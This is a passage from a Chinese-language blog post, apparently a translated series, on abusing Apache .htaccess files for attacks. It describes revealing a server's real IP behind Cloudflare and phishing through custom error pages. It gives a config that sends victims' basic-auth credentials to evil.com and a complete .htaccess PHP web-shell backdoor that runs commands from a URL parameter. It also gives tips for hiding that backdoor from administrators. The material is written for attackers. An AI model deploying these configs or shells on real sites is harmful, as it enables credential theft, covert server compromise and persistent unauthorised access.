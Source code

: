 描述的用于执行浏览器指纹识别和IP记录用户的方法也可用于信息泄露。 PHP动态镜像可以与托管在你自己的服务器上的htaccess文件结合使用，然后攻击者可以将URL输入到目标服务器上某处的映像，从而导致目标服务器请求镜像和返回的目标服务器的IP地址写入攻击者服务器上的日志文件。 这可以用来绕过像Cloudflare这样的服务，以便揭示服务器的真实IP地址。  


### 通过网上钓鱼获取登录凭据

攻击者可以通过几种不同的方式使用htaccess来获取登录凭据和对用户实施钓鱼。 我在这里讨论的方法是通过使用ErrorDocument进行鱼叉式钓鱼 - 除了能够通过使用自定义错误文档来提供恶意软件外，还可以使用HTML / CSS / JS创建文档，这意味着某些人可以轻松创建iframe 网络钓鱼来获取证书，这就像：  
`ErrorDocument 403 <YourHtmlCode>`  

当用户到达403页（或者攻击者选择设置的任何HTTP状态码）时，他们可以通过使用iframe或document.write() 来创建假登录页面，诱骗用户的凭证。  
 
另一种通过在受损站点上修改htaccess来进行网络钓鱼的方法是通过用户名/密码框提示用户，然后将输入的凭证发送到由攻击者控制的远程服务器，这里是由wireghoul 创建的htaccess文件，便做到这一点：
```  
＃此文件将提示用户输入用户名和密码以明文形式（http basic auth）将证书发送到您的服务器  
＃你将需要编辑这个文件并创建一个脚本来收集服务器上的凭据  
AuthType Basic
AuthName “”
AuthRemoteServer evil.com
AuthRemotePort 80
AuthRemoteURL /phish/
require valid-user
＃您的脚本需要返回相应的401或200 OK响应代码到mod_auth_remote模块。
```
在这个博客系列的第2部分中，我将解释一些利用htaccess的独特和复杂的网络钓鱼方法，这几乎是无法察觉的。  


### 使用htaccess来产生一个shell

如果攻击者对他们试图锁定的服务器的访问权限有限，或者是一个允许他们覆盖当前存在的htaccess文件的漏洞，那么可以使用前面描述的方法将htaccess变成一个基于web的HTTP GET shell。有时即使攻击者已经拥有对服务器的shell访问权限，但是为了维护对其原始shell的访问权限，防止被检测和删除，他们可能需要向htaccess添加额外的shell。  

下面是一个功能齐全的产生shell的htaccess文件的例子：  
```
＃htaccess后门shell
＃这是比较典型的webshell相对隐身
＃覆盖拒绝规则，使htaccess可以从互联网上访问，没有这个，你会得到一个HTTP 403
<Files ~ "^\.ht">
 Require all granted
 Order allow,deny
 Allow from all
</Files>
＃使服务器将.htaccess文件作为.php文件
AddType application/x-httpd-php .htaccess
# <?php system($_GET[‘hax’]); ?>
＃要执行您将导航到的命令：
# http://vulnerable.com/.htaccess?hax=YourCommand
＃如果system不能使用，然后尝试其他系统调用，例如passthru(); shell_exec();等等
＃如果你仍然不能执行系统调用，请尝试通过htaccess绕过php.ini
```
一般来说，如果攻击者使用htaccess作为维护shell访问受感染站点的手段，那么他们会在htaccess文件中添加某种形式的填充/空格或附加（无害）指令，使其长度更长，以至于系统管理员可能会注意到他们的htaccess文件中存在的任何可疑的PHP代码。对于更加隐蔽的htaccess shell，我建议将非字母数字组合放入您的PHP代码中（我将在即将发布的博客文章中介绍有关维护访问受损服务器方法的非字母数字主题）。  
 
另外，对于在PHP不可用的情况下可以在htaccess中使用的各种形式的shell的完整列表，我强烈建议查看wireghoul的"[htshells](https://github.com/wireghoul/htshells)"存储库。  